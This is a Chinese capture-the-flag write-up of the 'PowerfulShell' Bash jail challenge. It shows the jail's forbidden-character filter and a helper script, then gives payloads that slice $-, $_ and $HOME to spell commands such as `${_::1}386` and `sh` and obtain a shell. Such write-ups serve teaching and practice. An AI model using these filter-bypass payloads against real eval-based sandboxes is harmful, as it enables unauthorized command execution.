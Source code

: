# PowerfulShell

一道 Bash Jail 类型的题，严格限制了可用字符，所有输入会经过字符检查，如果包含禁用字符则退出，合法输入会被 `eval` 执行。

```bash
#!/bin/bash

FORBIDDEN_CHARS="'\";,.%^*?!@#%^&()><\/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0"

PowerfulShell() {
    while true; do
        echo -n 'PowerfulShell@hackergame> '
        if ! read input; then
            echo "EOF detected, exiting..."
            break
        fi
        if [[ $input =~ [$FORBIDDEN_CHARS] ]]; then
            echo "Not Powerful Enough :)"
            exit
        else
            eval $input
        fi
    done
}

PowerfulShell
```

关键限制：

- 禁用了所有字母 (`a-z, A-Z`)
- 禁用了常用的通配符 (`*, ?`)
- 禁用了引号 (`', "`)
- 禁用了分隔符 (`;, .`)
- 禁用了数字 `0`

可用字符：

- 空格：用于分隔命令
- `$`：变量引用
- `+-`：算术运算
- `123456789`：数字
- `:`：用于字符串操作
- `=`： 赋值操作
- `[]{}|`：用于命令替换和管道
- `_`：下划线
- `` ` ``：命令替换
- `~`：家目录

## 非预期解

在测试各种可用[Shell 变量 (Shell Variables)](https://www.gnu.org/software/bash/manual/bash.html#Shell-Variables) 和 [特殊参数 (Special Parameters)](https://www.gnu.org/software/bash/manual/bash.html#Special-Parameters)，我发现两个变量的值中包含了被禁用的字符：

- `$-`: `hB`
- `$_`: `input`

`$-` 是 Shell 选项标志 (option flags)，`h` (hashall) 表示记住命令的位置，`B` (braceexpand) 表示启用大括号拓展。

`$_` 是上一个命令的最后一个参数，即 `eval $input` 语句中的 `input`。

那么我们可以通过字符串切片获得 `hBinput` 字符任意数量排列组合的命令，例如：

- `php`: `${_:2:1}${-::1}${_:2:1}`
- `pip`: `${_:2:1}${_::1}${_:2:1}`
- `init`: `${_::2}${_::1}${_:4:1}`
- `h2ph`: `${-::1}2${_:2:1}${-::1}`

可惜靶机环境缺少这些命令，无法直接使用。于是我编写了一个脚本，用来查找本地系统中所有仅由这些可用字符组成的命令，并自动生成对应的构造表达式：

```python
import os
from pathlib import Path

allowed = set("hBinput123456789-")
option_flags = "hB"  # $-
last_arg = "input"  # $_


def char_to_expr(c: str) -> str:
    if c.isdigit():
        return c
    if c in option_flags:
        return f"${{-:{option_flags.index(c) or ''}:1}}"
    if c in last_arg:
        return f"${{_:{last_arg.index(c) or ''}:1}}"
    return ""


commands = {
    cmd.name
    for path in os.environ["PATH"].split(":")
    if os.path.exists(path)
    for cmd in Path(path).iterdir()
    if os.access(cmd, os.X_OK) and set(cmd.name) <= allowed
}

for cmd in sorted(commands):
    expr = "".join(char_to_expr(c) for c in cmd)
    print(f"{cmd}:\t{expr}")
```

结果：

```
h2ph:   ${-::1}2${_:2:1}${-::1}
i386:   ${_::1}386
init:   ${_::1}${_:1:1}${_::1}${_:4:1}
ip:     ${_::1}${_:2:1}
php:    ${_:2:1}${-::1}${_:2:1}
tput:   ${_:4:1}${_:2:1}${_:3:1}${_:4:1}
```

`tput` 是一个用于控制终端输出格式的命令，没有什么用。

`i386` 是 `setarch` 命令的符号链接，`setarch` 包含在 [util-linux](https://github.com/util-linux/util-linux) 包中，用于改变程序运行时的系统架构环境。

例如在 AMD64 (x86_64) 系统上，运行 `i386 command` 会使得 `command` 看到的系统架构是 `i686` 而不是 `x86_64`。

更重要的是，根据 man page 的说明，如果不指定要运行的程序，`setarch` 会默认运行 `/bin/sh`：

```
The execution domains currently only affects the output of uname -m.
For example, on an AMD64 system, running setarch i386 program will
cause program to see i686 instead of x86_64 as the machine type. It can
also be used to set various personality options. The default program is
/bin/sh.
```

这意味着直接运行 `i386` 命令就能获得一个完整的 shell 环境：

```
PowerfulShell@hackergame> ${_::1}386
id
uid=1000(players) gid=1000(players) groups=1000(players)
```

另外：那么为什么会有一个 `i386` 链接到 `setarch` 呢？

在源码的 [478-479 行](https://github.com/util-linux/util-linux/blob/4e14b5731efcd703ad13e24362448c87cecb5424/sys-utils/setarch.c#L478-L480)中写道，如果程序名不是 `setarch`，就认为是通过符号链接调用的，这时会把程序名当作目标架构名：

```c
archwrapper = strcmp(program_invocation_short_name, "setarch") != 0;
if (archwrapper) {
    arch = program_invocation_short_name;	/* symlinks to setarch */
```

你可以看到系统中还存在其他许多符号链接：

```
 find /usr/bin -type l -lname '*setarch*' 2>/dev/null
/usr/bin/i386
/usr/bin/linux32
/usr/bin/linux64
/usr/bin/uname26
/usr/bin/x86_64
```

## 预期解

预期解是利用 `$HOME` 变量值 `/players` 中的 `s` 字符，与 `$-` 变量值 `hB` 中的 `h` 组合构造出 `sh`。

`~` 会被扩展为 `$HOME` 变量，所以将 `~` 赋值给符合 Bash 命名规则的新变量，再对它进行切片：

```bash
_1=~                    # /players
_2=$-                   # hB
${_1:7:1}${_2: -2:1}    # sh
```

直接使用 `${~:7:1}` 是不行的，比赛中我这里卡了一下，所以放弃了这种解法。

来看看 AI 朋友的解释：

> 在 bash 中，`${parameter:offset:length}` 语法用于字符串切片，其中 `parameter`:
>
> 可以是变量名（如 `$HOME`, `$PATH`）
> 可以是特殊参数（如 `$@`, `$*`, `$#`, `$-`, `$_`）
> 必须是一个有效的参数引用
>
> `~` 不是一个变量或参数名，它是一个特殊字符：
>
> 作为命令的第一个字符时，bash 会将其扩展为 `$HOME` 的值
> 但在参数扩展语法 `${...}` 中，它不会被识别为一个有效的参数名
>
> 因此需要两步操作：
>
> 先将 `~` 赋值给一个变量，这时 bash 会进行扩展，变量获得 `$HOME` 的值
> 然后对这个变量进行切片操作
